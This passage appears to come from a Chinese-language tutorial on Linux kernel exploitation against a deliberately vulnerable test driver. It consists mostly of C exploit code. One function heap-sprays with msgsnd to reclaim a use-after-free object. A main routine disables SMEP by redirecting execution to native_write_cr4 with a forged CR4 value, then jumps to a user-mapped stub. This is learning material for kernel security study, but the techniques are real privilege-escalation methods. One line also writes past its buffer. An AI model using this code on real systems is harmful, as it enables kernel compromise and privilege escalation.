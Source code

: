 
```
//用msgsnd构造堆喷
int use_after_free_msgsnd(int fd, size_t target, size_t arg)
{
    int new_len=BUFF_SIZE-48;
    struct {
        size_t mtype;
        char mtext[new_len];
    } msg;
    //布置堆喷数据，必须减去头部48字节
    memset(msg.mtext,0x42,new_len-1);
    memcpy(msg.mtext+56-48,&arg,sizeof(long));
    memcpy(msg.mtext+56-48+(sizeof(long)),&target,sizeof(long));
    msg.mtext[new_len]=0;
    msg.mtype=1; //mtype必须 大于0

    // 创建消息队列
    int msqid=msgget(IPC_PRIVATE,0644 | IPC_CREAT);
    // 构造UAF对象
    ioctl(fd, ALLOC_UAF_OBJ,NULL);
    ioctl(fd,FREE_UAF_OBJ,NULL);
    //开始堆喷
    for (int i=0;i<120;i++)
        msgsnd(msqid,&msg,sizeof(msg.mtext),0);
    //触发
    ioctl(fd,USE_UAF_OBJ,NULL);
}


```

**msgsnd 注意**：msgsnd 堆喷必须减去头部长度 48，前 48 字节不可控。

##### 3. 绕过 SMEP 测试

完整代码见`test_smep.c`。

注意：暂时先关闭 ASLR，单核启动，修改`start.sh`脚本即可。

```
int main()
{
    size_t native_write_cr4_addr=0xffffffff81065a30;
    size_t fake_cr4=0x407e0;

    void *addr=mmap((void *)MMAP_ADDR,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED|MAP_SHARED|MAP_ANON,0,0);
    void **fn=MMAP_ADDR;
    // 拷贝stub代码到 MMAP_ADDR
    memcpy(fn,stub,128);
    int fd=open(PATH,O_RDWR);
    //用于标识dmesg中字符串的开始
    ioctl(fd,DRIVER_TEST,NULL);
    /*
    use_after_free_sendmsg(fd,native_write_cr4_addr,fake_cr4);
    use_after_free_sendmsg(fd,MMAP_ADDR,0);
    */
    
    use_after_free_msgsnd(fd,native_write_cr4_addr,fake_cr4);
    use_after_free_msgsnd(fd,MMAP_ADDR,0);
    
    return 0;
}


```